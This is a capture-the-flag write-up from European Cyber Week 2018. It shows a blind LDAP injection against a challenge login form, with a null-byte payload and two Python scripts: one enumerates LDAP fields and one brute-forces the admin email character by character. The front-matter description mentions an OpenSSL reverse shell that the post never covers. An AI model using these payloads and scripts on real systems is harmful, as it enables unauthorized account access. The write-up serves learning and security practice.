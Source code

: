 ```yaml
---
weight: 4
title: "[European Cyber Week] - AdmYSion"
date: 2018-10-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: "Simple reverse shell using OpenSSL."
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["ecw", "thales", "airbus", "ldap injection", "web", "blind"]
categories: ["Writeups"]

lightgallery: true
---
```



## State of the art

We only have a login form in front of us:


![](/lib/images/writeups/2018_ecw/admysion/adm_1.png)


My first move was trying an SQL injection... It was useless, in fact it's an `LDAP injection`:


![](/lib/images/writeups/2018_ecw/admysion/adm_2.png)


Our little asterisk `*` is matching with all the accounts in the LDAP base, it's now time to script :D

## Blind LDAP Injection

Because I already did an LDAP injection on a famous french challenge platform (it starts by `root` and ends by `-me.org`), I know that the payload will have the following aspect

> *)(cn=*))\x00

The `cn` part will change, it's a common field in an LDAP base, it means `Common Name`. The null byte at the end is used to remove the password field.

## Find LDAP fields

I built a little dictionary with all the common LDAP fields:

```raw
c
cn
dc
facsimileTelephoneNumber
co
gn
homePhone
jpegPhoto
id
l
mail
mobile
o
ou
owner
name
pager
password
sn
st
uid
username
userPassword
```

And then a little python script to bruteforce them:

```python
#!/usr/bin/python3

import requests
import string

ava = []

url = 'https://web050-admyssion.challenge-ecw.fr/'

f = open('dic', 'r')
dic = f.read().split('\n')
f.close()

for i in dic:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'})
    if 'Error: This login is associated with' in r.text:
        ava.append(str(i))

print(ava)
```

### looking for the admin email

Okay, now I will dig into the `mail` field trying to find the email address of the administrator (I know my script is very, very ugly, I bruteforced manually each first letter...):

```python
#!/usr/bin/python3

import requests
import string
import itertools
from pprint import pprint

ava = []
partial = ''
no_pass = True
charset = string.ascii_lowercase+'.@'

url = 'https://web050-admyssion.challenge-ecw.fr/'

go = 'Error: This login is associated'
go2 = 'Login failed'
nogo = 'Account not found, please'

while no_pass:
    no_pass = False
    for i in charset:
        payload = '*)(mail=s'+str(partial+i)+'*))\x00'
        r = requests.post(url, data = {'login':payload, 'password':'bla'})
        if nogo not in r.text:
            no_pass = True
            partial += i
            break
    print(partial)
```

You can notice the little `s` in front of my _partial_ variable! I tried to find all `a`, `b` etc... And here is why `s`:


![](/lib/images/writeups/2018_ecw/admysion/adm_3.png)


`s`+`arah.connor.admin@yoloswag.com` looks to be the administrator. To find the username of the account, just change `mail` field into `cn`, it gives us: `s.connor`. And now, how can we find the password? By guessing for sure! Let's try 'yoloswag' as a password:


![](/lib/images/writeups/2018_ecw/admysion/adm_4.png)
